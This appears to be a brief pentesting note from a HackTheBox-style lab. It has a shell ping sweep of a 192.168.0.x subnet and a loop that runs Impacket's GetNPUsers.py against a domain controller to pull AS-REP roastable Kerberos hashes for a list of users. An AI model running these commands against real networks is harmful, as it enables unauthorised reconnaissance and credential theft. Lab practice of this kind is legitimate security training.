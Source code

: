 #ping all the 192.168.0.x subnet heading
for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; 

#loops over a file "users" executes.py  
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done 
